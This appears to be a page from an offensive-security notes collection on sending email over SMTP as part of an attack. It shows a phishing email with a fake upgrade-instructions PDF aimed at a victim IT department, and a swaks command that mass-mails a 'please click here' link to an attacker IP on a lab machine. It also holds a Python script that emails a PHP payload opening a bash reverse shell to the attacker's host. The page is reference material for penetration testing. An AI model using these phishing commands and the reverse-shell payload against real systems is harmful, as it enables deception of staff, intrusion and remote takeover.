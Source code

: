 ## [Commands](smtp-commands.md)

### Sending an Email from linux console

```text
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions for upgrading and securing your software. Please read and let us know if you have any problems.

Sincerely,
```

```bash
 swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```

### Sending an Email with Python

Here's alternative way to send an email with python script

```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = "" 
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload 
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
    print("[-]Connection Error")
    exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)
```